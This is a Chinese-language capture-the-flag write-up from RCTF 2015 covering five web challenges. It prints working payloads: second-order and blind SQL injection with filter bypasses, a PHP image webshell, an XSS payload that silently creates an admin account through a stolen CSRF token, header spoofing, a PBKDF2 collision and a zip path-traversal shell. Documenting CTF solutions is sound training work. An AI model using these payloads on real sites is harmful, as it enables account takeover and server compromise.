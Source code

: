 ```yaml
---
layout: post
title: RCTF-writeup[web]
tags: [writeup]
categories: writeup
date: 2015-11-17 09:34:39
---
```


**upload**

看起来是一个上传题，其实这是一个注入题。在文件名的地方存在注入。因为注入点是insert的，如果直接进行报错注入或者延时注入的话会提示sqlinject find。我们可以利用二次注入，来得到数据。通过fuzz发现，在进行insert操作的时候有三个列，所以构造

```
文件名','uid','uid'),((database()),'uid','uid')#.jpg
```
就可以看到回显的数据，然后通过走流程就可以查询出flag，但是有一点要注意题目直接把select from 这些关键字过滤了两次所以得构造这样的selselectect才行。


**weeeeeb3**

先注册一个帐号，然后找回密码，输入正确的信息。到第二步提示修改新的密码的时候，直接抓包把用户名修改为admin。然后就可以登陆admin这个帐号，然后在manage页面提示 not allow ip 我们把xxf改为127.0.0.1就可以绕过。然后要我们猜action 由于是filemanage就直接猜action＝upload 然后就出现一个上传页面，通过一轮fuzz，直接上传一个图片马，在后面写上

```
<script lanaguage="php"> phpinfo()</script>
```
把后缀改为php5 就成功拿到了flag。


**xss**

这是一个留言板，通过fuzz发现过滤了很多标签，除此之外还把on事件直接给过滤了。后面测试发现可以使用link标签，然后使用sctf里面那种方法就可以弹框了。

```
<link rel="import" href="data:text/html;base64,PHNjcmlwdD5kZWxldGUgYWxlcnQ7YWxlcnQoIkhlbGxvIik7PC9zY3JpcHQ+">
```
![xss-1.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-1170534972.jpg)

查看页面的html源码发现

```
<!--only for admin
<form action="" method="post">
username:<input type="text" name="name"><br />
password:<input type="password" name="pass"><br />
<input type="radio" name="isadmin" value="0">user
<input type="radio" name="isadmin" value="1">admin<br />
<input type="hidden" name="token" value="34a1615ff3eaf616f7fa205a12792d27">
<input type="submit" name="adduser" value="adduser">
</form>-->
```
很明显啦，就是要添加一个管理帐号帐号，发现页面使用啦jquery直接添加帐号就行。

```javascript
<script src=http://180.76.178.54:8004/4b79f5d4860384d4ac494ad91f5313b7/js/jquery.js></script>
<script>
$.ajax({
                               type: "post",
                               url: "",
                               data: "name=tomato123&pass=tomato123&isadmin=1&adduser=adduser&token="+$("input[name=token]").val()})
</script>
```

然后构造payload

```
<link rel="import" href="data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cDovLzE4MC43Ni4xNzguNTQ6ODAwNC80Yjc5ZjVkNDg2MDM4NGQ0YWM0OTRhZDkxZjUzMTNiNy9qcy9qcXVlcnkuanM+PC9zY3JpcHQ+CjxzY3JpcHQ+CiQuYWpheCh7CiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICB0eXBlOiAicG9zdCIsCiAgICAgICAgICAgICAgICAgICAgICAgICAgICAgICB1cmw6ICIiLAogICAgICAgICAgICAgICAgICAgICAgICAgICAgICAgZGF0YTogIm5hbWU9dG9tYXRvMTIzJnBhc3M9dG9tYXRvMTIzJmlzYWRtaW49MSZhZGR1c2VyPWFkZHVzZXImdG9rZW49IiskKCJpbnB1dFtuYW1lPXRva2VuXSIpLnZhbCgpfSkKPC9zY3JpcHQ+">
```
添加了一个帐号密码为tomato123的管理员
访问admin.php拿到flag
![xss－2.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-545225687.jpg)




**easysql**

注册一个aaa\然后在修改密码的页面可以发现报错

![easysql-1.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2913177276.jpg)

可以看到是双引号，这明显是一个二次注入，然后重新构造语句发现不能含有空格。但是这并不影响，直接用括号代替就行了。

![easysql-2.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-157009057.jpg)

然后爆出一个flag表，查询提示说flag not here，然后去查users里面的列名发现

![easysql－3.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3268258668.jpg)

然后直接去查询里面的内容，发现只能出现RCTF这几个字符，然后就一直在纠结怎么查询，因为测试发现把substring left，right，reverse like 这些都拦截了。后面灵机一动想到了regexp。

```
username=tomato"||updatexml(0x7c,concat((select(real_flag_1s_here)from(users)where(real_flag_1s_here)regexp('^R'))),1)#&password=tomato&email=tomato
```
然后成功搞定

![easysql－4.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-1387239513.jpg)


**login**

第二天给了提示说是nosql，那就猜是mongodb
![login-1.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3330162428.jpg)

那就开始跑密码了。![login－2.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-3255963769.jpg)

跑出的帐号密码为

```
ROIS_ADMIN  pas5woRd_i5_45e2884c4e5b9df49c747e1d
```
然后登陆一发。
![login-3.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-460039838.jpg)

下载备份文件，发现是一个php的解压zip的类，然后百度找到官方提供的，在diff一下

![login-4.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-1149569489.jpg)


还在html源码里面发现

```php
$Agent = $_SERVER['HTTP_USER_AGENT'];
$backDoor = $_COOKIE['backdoor'];
$msg = json_encode("no privilege");
$iterations = 1000;
$salt = "roisctf";
$alg = "sha1";
$keylen = "20";
if ($Agent == $backDoor || strlen($Agent) != 65) {
    exit($msg);
}
if (substr($Agent,0,23) != "rois_special_user_agent") {
    exit($msg);
}
if (pbkdf2($alg, $Agent, $salt, $iterations, $keylen) != pbkdf2($alg, $backDoor, $salt, $iterations, $keylen)) {
    exit($msg);
}
```
测试发现直接上传zip提示没有权限，然后只有过了上面三个条件才行。主要是第三个条件不好过，然后google一发
pdkdf2 ctf 

![2664205826](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2664205826.jpg)

找到了这个 PBKDF2+HMAC collision
然后在https://mathiasbynens.be/notes/pbkdf2-hmac
这篇文章里面说到这个是可以碰撞的，就是不同的明文会出现相同的密文，然后用里面提供的脚本跑一发。成功跑出来一个

```
rois_special_user_agentaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaamipvkd

3-Rfm^Bq;ZZAcl]mS&eE
```
然后改一下ua，在cookie里面添加backdoor就可以成功上传了。

![2009859300](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2009859300.jpg)

按照解压出来的文件的命名规则为md5(文件名＋RoisFighting).文件的后缀
但是访问http://180.76.178.54:8005/53a0fb1b692f02436c3b5dda1db9c361/upload/image/051ee28a1964f9f2779d32f2e48212cb/70d08f9380da3a6e0440b3266a2a39f6.php![2977300730](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2977300730.jpg)

文件并不存在，测试发现在解压后会直接删除文件，所以我们可以尝试构造一个解压到上级目录的shell



![login-7.jpg](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2977300730.jpg)

shell地址就是
http://180.76.178.54:8005/53a0fb1b692f02436c3b5dda1db9c361/upload/image/382aef24b11f8c5222bc58062a9bf5c7.php


  

